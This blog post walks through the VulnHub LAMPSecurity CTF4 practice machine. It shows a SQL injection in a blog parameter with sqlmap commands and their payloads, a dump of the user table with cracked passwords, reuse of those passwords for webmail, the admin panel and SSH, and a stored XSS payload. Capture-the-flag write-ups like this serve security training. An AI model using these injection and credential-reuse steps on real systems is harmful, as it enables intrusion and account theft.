 +++
title = "LAMP CTF4"
date = 2017-09-20
[image]
link = "/images/posts/lamp_ctf4/presentation.jpg"
copyright = "https://unsplash.com/@felexelix"
tags = ["technology", "ctf"]
+++

> Source: https://www.vulnhub.com/entry/lampsecurity-ctf4,83/

This LAMP challenge is most likely to be focused around casual Linux-Apache-MySQL-PHP vulnerabilities. Let's check the `robots.txt` file first:

```
User-agent: *
Disallow: /mail/
Disallow: /restricted/
Disallow: /conf/
Disallow: /sql/
Disallow: /admin/
```

## /mail/

Looks like a webmail service, we can't login for now, moving on.

## /restricted/

There's another service here, protected by a `.htaccess` file login, but we don't have any access, moving on.

## /conf/

This page crashes with a 500 error that gives two interesting pieces of information:

- The system is Fedora and is using `Apache/2.2.0`
- `dstevens@localhost` is the system admin of the website.

## /sql/

Following the link to the `db.sql` file, it looks like the database init script, to create tables inside the database `ehks`.

```sql
use ehks;
create table user (user_id int not null auto_increment primary key, user_name varchar(20) not null, user_pass varchar(32) not null);
create table blog (blog_id int primary key not null auto_increment, blog_title varchar(255), blog_body text, blog_date datetime not null);
create table comment (comment_id int not null auto_increment primary key, comment_title varchar (50), comment_body text, comment_author varchar(50), comment_url varchar(50), comment_date datetime not null);
```

## /admin/

This is a login page to what seems to be the admin section of the website, we don't have any access, moving on.

# Blog

We can find quite easily that the `id` parameter on the blog page is subject to SQL injections:

```
http://hostname/index.html?page=blog&title=Blog&id=2 or 1=1
```

Let's spin up `sqlmap` to verify that:

```shell
$ sqlmap --url=http://hostname/index.html\?page\=blog\&title\=Blog\&id\=2
...
[14:29:44] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
...
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=blog&title=Blog&id=2 AND 4573=4573

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: page=blog&title=Blog&id=2 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: page=blog&title=Blog&id=2 UNION ALL SELECT NULL,CONCAT(0x7176766a71,0x5977754a5070696d674d496c6b5054584d4655575261757651686750576e58664e7475695866544f,0x716b706271),NULL,NULL,NULL-- aReR
---
[14:29:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL >= 5.0.12
```

This confirms the vulnerability of the `id` parameter and also that we have the LAMP setup as expected.

Let's explore the database now, starting with the tables and columns in the database `ehks` (the one we found earlier):

```shell
$ sqlmap --url=http://hostname/index.html\?page\=blog\&title\=Blog\&id\=2 --dbms=MySQL -p id --columns -D ehks
...
Database: ehks
Table: blog
[5 columns]
+------------+--------------+
| Column     | Type         |
+------------+--------------+
| blog_body  | text         |
| blog_date  | datetime     |
| blog_id    | int(11)      |
| blog_title | varchar(255) |
| user_id    | int(11)      |
+------------+--------------+

Database: ehks
Table: comment
[6 columns]
+----------------+-------------+
| Column         | Type        |
+----------------+-------------+
| comment_author | varchar(50) |
| comment_body   | text        |
| comment_date   | datetime    |
| comment_id     | int(11)     |
| comment_title  | varchar(50) |
| comment_url    | varchar(50) |
+----------------+-------------+

Database: ehks
Table: user
[3 columns]
+-----------+-------------+
| Column    | Type        |
+-----------+-------------+
| user_id   | int(11)     |
| user_name | varchar(20) |
| user_pass | varchar(32) |
+-----------+-------------+
```

Sweet! now let's dump the user info and try to crack the passwords:

```shell
$ sqlmap --url=http://hostname/index.html\?page\=blog\&title\=Blog\&id\=2 --dbms=MySQL -p id -D ehks -T user --dump
...
[14:48:02] [INFO] recognized possible password hashes in column 'user_pass'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
do you want to crack them via a dictionary-based attack? [Y/n/q] y
what dictionary do you want to use?
[1] default dictionary file '/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
>
do you want to use common password suffixes? (slow!) [y/N] n
...
Database: ehks
Table: user
[6 entries]
+---------+-----------+--------------------------------------------------+
| user_id | user_name | user_pass                                        |
+---------+-----------+--------------------------------------------------+
| 1       | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 (ilike2surf)    |
| 2       | achen     | b46265f1e7faa3beab09db5c28739380 (seventysixers) |
| 3       | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 (Homesite)      |
| 4       | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 (Sue1978)       |
| 5       | sorzek    | e0a23947029316880c29e8533d8662a3 (convertible)   |
| 6       | ghighland | 9f3eb3087298ff21843cc4e013cf355f (undone1)       |
+---------+-----------+--------------------------------------------------+
```

Remember the `500` error previously? It mentioned the user `dstevens`, and we now have his password, great! 

We can go back to the previous services we found:

# /mail/ round 2

Using the `dstevens`/`ilike2surf` combination works. We can see a lot of security-related emails, mentioning the `sqlmap` execution we just did (not very stealthy!):

```
OSSEC HIDS Notification.
2017 Sep 19 14:29:26

Received From: ctf->/var/log/httpd/access_log
Rule: 31106 fired (level 12) -> "A web attack returned code 200 (success)."
Portion of the log(s):

XX.XX.XX.XX - - [19/Sep/2017:14:29:26 -0400] "GET
/index.html?page=blog&title=Blog%25%27%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%23&id=2
HTTP/1.1" 200 2982 "-" "sqlmap/1.0.9.32#dev (http://sqlmap.org)"

--END OF NOTIFICATION
```

# /admin/ round 2

The same login works here, it's the backend to the blog part of the website. We can create new blog posts with a title and a body. Nothing more to say apart from the fact that the fields won't protect against possible XSS. Posting 

```html
<script> alert(1) </script>
```

will lead to the script being executed.

# SSH

`dstevens` is most likely the admin of the machine, let's try to connect to the box, using SSH, with the same login found on the db:

```shell
$ ssh dstevens@hostname
dstevens@hostname's password:
Last login: Mon Mar  9 07:48:18 2009 from 192.168.0.50
[dstevens@ctf ~]$ cat /passwd
cat: /passwd: Permission denied
[dstevens@ctf ~]$ sudo cat /passwd
Password:
21fd958ecb671ca15bd7547077910147
```

Neat, it worked!
